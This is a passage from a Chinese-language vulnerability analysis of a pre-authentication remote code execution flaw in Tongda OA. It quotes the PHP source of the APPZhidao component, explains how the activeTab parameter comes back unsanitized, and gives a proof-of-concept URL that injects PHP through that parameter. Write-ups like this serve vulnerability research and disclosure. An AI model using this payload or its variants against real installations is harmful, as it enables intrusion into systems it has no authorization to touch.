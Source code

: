 可以看到成功进行了逃逸。至此通达 OA 前台 RCE 的原理也就分析完了。

#### 寻找其它的利用处

##### 其它可以利用的组件模块

在上面的源码分析，我们也发现了只要最终调用的 module 中的 get\_data 的返回含有我们可控的 activeTab，就可以在/general/appbuilder/web/portal/gateway/getdata 进行 rce。在 comtype 为 0 的情况下，寻找的是文件夹 function\_components 下面的类，其中有一个 APPZhidao 类，它的 get\_data 如下：

```php
    public function get_data($thisarray)
    {
        $json = $thisarray["attribute"];
        $activeTab = $thisarray["activeTab"];
        $curnum = $thisarray["curnum"];
        $pagelimit = $thisarray["pagelimit"];
        $timetype = $thisarray["timetype"];
        $ret = (array) modules\portal\models\function_components\json_decode($json);
        $json_data = modules\appdesign\models\AppUtils::object2Array($ret);
        $json_data = modules\appdesign\models\AppUtils::toGBK($json_data);

        if ($timetype) {
            $this_time = modules\appdesign\models\AppUtils::get_time($timetype);
            $this->beginTime = $this_time["beginTime"];
            $this->endTime = $this_time["endTime"];
        }

        $curnum = ($curnum ? $curnum : 1);
        $start = ($curnum - 1) * $pagelimit;

        if (modules\portal\models\function_components\find_id($_SESSION["LOGIN_FUNC_STR"], "185")) {
            .........
            .........
            .........
        }

        $dataBacks = array("page_total" => $page_total, "total_nums" => $total_nums, "curnum" => $curnum, "pagelimit" => $pagelimit, "activeTab" => $activeTab, "data" => $this->dataBack);
        return $dataBacks;
    }
```

由于未登录所以大部分的逻辑都是不会进去的，直接返回了含有未修改 activeTab 的数组。利用的 poc 如下所示：

```php
/general/appbuilder/web/portal/gateway/getdata?activeTab=%e5'.var_dump(111));/*&id=1&module=Zhidao
```

其实大部分的组件都是可以利用的，除了 website\_components 下的 module，因为它的 get\_data 并没有返回可控的 activeTab。

##### 其它可以利用的路由

在 actionMore 中用到了同样的逻辑来获得 dataBack，所以这边也存在利用点，actionMore 代码如下：
